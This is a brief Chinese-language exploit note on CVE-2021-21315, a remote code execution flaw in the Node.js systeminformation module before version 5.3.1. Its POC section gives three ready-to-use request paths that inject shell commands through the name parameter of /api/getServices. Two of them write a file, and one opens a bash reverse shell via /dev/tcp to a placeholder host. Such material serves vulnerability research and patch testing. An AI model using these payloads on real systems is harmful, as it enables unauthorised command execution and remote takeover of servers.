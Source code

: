 ## CVE-2021-21315 Node.js systeminformation模块RCE

影响版本：
- systeminformation < 5.3.1

POC:
```
/api/getServices?name=$(echo -e 'Sekurak' > pwn.txt)
/api/getServices?name[]=$(echo -e 'Sekurak' > pwn.txt)
/api/getServices?name[]=$(bash -i >& /dev/tcp/0.0.0.0/0000 0>&1)
```

[@ForbiddenProgrammer](https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC)